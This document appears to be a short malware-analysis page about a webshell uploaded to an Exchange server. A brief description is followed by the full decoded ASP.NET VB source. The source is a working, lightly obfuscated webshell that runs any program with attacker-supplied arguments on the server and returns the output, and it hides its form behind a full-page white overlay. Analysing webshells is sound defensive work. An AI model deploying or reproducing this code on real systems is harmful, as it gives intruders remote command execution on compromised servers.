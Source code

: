 # **Webshell demonstration Functionality**

The webshell file was uploaded on Exchange server which contains base64 encoded code. However, 

when the webshell is accessed using a browser, two textboxes will be displayed along with a button. One textbox is for the path, usually it is “cmd.exe”, the other textbox is for the arguments that will be passed to the “cmd.exe”. After pressing the button, it will execute the function “xmmmsjowe” on server. This will create a new process for command prompt and execute the command. The result of the command will be sent to the client the label with id “fldfldfw” will show the result indicating whether the command was successfully executed or not.

```vbnet
<%@ Page LanGuaGe='VB' Debug='tRUe' %>
 <%@ imPOrt NamESpAce='system.IO' %>
 <%@ imPOrt NamESpAce='System.Diagnostics' %>
 <scRIPt runat='server'>
 Sub xmmmsjowe()
   Dim wertewt AS NeW PrOCesS()
   Dim wertewtewe As New ProCeSsStaRtInFo(zxcerwew.teXt)
   wertewtewe.UsESheLlExeCuTe=fALse
   wertewtewe.RedIRectStaNDardOuTPut=tRUe
   wertewt.StARtInFo = wertewtewe
   wertewtewe.ArGumENts=vcxwsasddd.teXt
   wertewt.StARt()
   Dim xxwertewtewe As StreamReader=wertewt.StanDardOutput
   Dim xxwrrertewtewe As StRIng = xxwertewtewe.ReAdtOEnd()
   wertewt.Close()
   fldfldfw.text= xxwrrertewtewe
 End Sub
 </scRIPt>
 <html>
 <body>
 <style>#div1{background:white}</style><style>#div1{width:100%}</style><style>#div1{height:100%}</style><style>#div1{position:fixed}</style>
 <div id='div1'></div>
 <form runat='server'>
 <asp:TeXtBOx id='zxcerwew' runat='server' Width='300px'></asp:TeXtBOx>
 <asp:TeXtBOx id='vcxwsasddd' runat='server' Width='300px'></asp:TeXtBOx>
 <p><asp:Button id='Button' onclick='xmmmsjowe' runat='server' Width='100px'></asp:Button>
 <p><asp:Label id='fldfldfw' runat='server'></asp:Label>
 </form>
 </body>
 </html>
```
